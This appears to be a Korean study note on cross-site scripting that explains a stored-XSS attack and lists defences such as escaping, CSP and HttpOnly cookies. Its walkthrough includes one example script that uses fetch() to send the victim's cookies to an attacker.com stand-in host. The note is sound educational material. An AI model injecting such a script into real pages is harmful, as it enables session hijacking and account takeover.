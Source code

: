 # XSS
XSS (Cross-Site Scripting, 크로스 사이트 스크립팅)는 웹 페이지에 악성 코드를 넣어서 사용자 정보를 빼앗는 공격이다.

### 공격 시나리오

```mermaid
sequenceDiagram
    participant Attacker as 공격자
    participant Website as XSS 취약한 웹사이트
    participant Victim as 피해자 (다른 사용자)
    participant Browser as 피해자의 브라우저
    participant Server as 공격자의 서버

    Attacker->>Website: ① 악성 스크립트 포함된 게시글/댓글 작성
    Victim->>Website: ② 피해자가 게시글/댓글을 보기 위해 웹사이트 방문
    Website-->>Browser: ③ 웹사이트가 악성 스크립트가 포함된 페이지를 응답
    Browser->>Browser: ④ 피해자의 브라우저에서 악성 스크립트 실행
    Browser->>Server: ⑤ 피해자의 쿠키/세션 정보 공격자 서버로 전송
    Server-->>Attacker: ⑥ 공격자가 피해자의 쿠키를 이용해 세션 하이재킹

```

1. 공격자가 XSS 취약한 웹사이트에 악성 스크립트 포함된 게시글/댓글을 작성
```html
<script>
    fetch("https://attacker.com/steal?cookie=" + document.cookie);
</script>
```

2. 다른 사용자가 게시글/댓글을 보기 위해 웹사이트를 방문
3. 웹사이트가 악성 스크립트가 포함된 페이지를 응답
	-  웹사이트는 게시글/댓글을 로드할 때 **악성 스크립트까지 함께 반환**함.
	- 웹사이트가 제대로 필터링하지 않았기 때문에, 악성 코드가 그대로 포함됨.
4. 피해자의 브라우저에서 악성 스크립트 실행
5. 악성 스크립트가 피해자의 쿠키/세션 정보를 공격자 서버로 전송
6. 공격자가 피해자의 쿠키를 이용해 세션 하이재킹(사용자로 가장하여 로그인 상태 유지)
	- 공격자는 피해자의 **쿠키를 이용해 세션을 탈취하고, 로그인된 계정으로 악의적인 행동 수행 가능.**
	- 예: 피해자의 계정으로 **결제 진행, 이메일 탈취, 계정 설정 변경 등**

### 방어 방법

- **입력 값 검증 (Input Validation)**:  - 사용자 입력값에서 스크립트 태그(`<script>`) 필터링 및 이스케이프 처리
    - `<`, `>` , `"` -> HTML 엔티티(`&lt;`, `&gt;`, `&quot;`)
    - `<script>` → `&lt;script&gt;`
- **출력 시 HTML 이스케이프 (Output Encoding)**: 서버에서 데이터를 출력할 때, HTML 태그를 문자열로 변환하여 실행되지 않도록 설정
- **콘텐츠 보안 정책(CSP)**: CSP 헤더를 사용해 특정 도메인에서 로드된 스크립트만 실행하도록 제한
	- `Content-Security-Policy: default-src 'self' `
- **HttpOnly 쿠키 사용**: `HttpOnly` 속성을 사용하여 JavaScript에서 쿠키 접근을 막음
	- `Set-Cookie: session=abcd1234; HttpOnly; Secure`
